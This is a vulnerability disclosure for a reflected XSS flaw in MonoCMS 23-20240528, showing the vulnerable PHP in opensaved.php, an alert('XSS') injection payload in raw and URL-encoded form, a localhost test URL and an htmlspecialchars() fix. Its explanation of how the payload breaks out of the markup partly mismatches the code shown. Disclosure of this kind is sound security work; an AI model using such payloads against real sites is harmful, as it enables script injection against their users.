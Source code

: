 # CVE-2024-10928 - [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/opensaved.php)


Affected Project: **MonoCMS**

Exploit Author: Dimitris Chatzidimitris

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/opensaved.php

Injection parameter: `filtcategory`

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the `filtcategory` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
if (isset($_GET['filtcategory']))
    echo '<option value="#">'. $_GET['filtcategory'].'</option>'.PHP_EOL.'<option value="opensaved.php'.$clink.'">All</option>';
```

<br />

## Injection Payload Tested:

We set `filtcategory` to:
```
</option><script>alert('XSS');</script><option>
```

<br />

## URL-encoded, this becomes:
```
%3C%2Foption%3E%3Cscript%3Ealert('XSS');%3C%2Fscript%3E%3Coption%3E
```

<br />

## Resulting HTML After Injection:
```
<option value="#"></option><script>alert('XSS');</script><option></option>
```


The injected `"></script>` closes the value attribute and the input tag, allowing the `<script>` tag to be inserted into the DOM.

<br />

## Execution:

When the browser parses this HTML, it executes the `</option><script>alert('XSS');</script><option>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `/monofiles/opensaved.php` looks like:

<br />

![opensaved.php](https://i.postimg.cc/XNBmMxsN/1.png)

<br />

Then we can add our payload `</option><script>alert('XSS');</script><option>` :
```
http://localhost:8080/monofiles/opensaved.php?filtcategory=</option><script>alert('XSS');</script><option>
```

<br />

![payload](https://i.postimg.cc/7Yvcq7R3/2.png)

<br />

After submitting the url with the vulnerable parameter `filtcategory` and the XSS payload `</option><script>alert('XSS');</script><option>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/KvnWjjXd/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
if (isset($_GET['filtcategory']))
    echo '<option value="#">' . htmlspecialchars($_GET['filtcategory'], ENT_QUOTES, 'UTF-8') . '</option>' . PHP_EOL . '<option value="opensaved.php' . $clink . '">All</option>';
```

<br />

> One Click Can Change Everything: Be Secure.
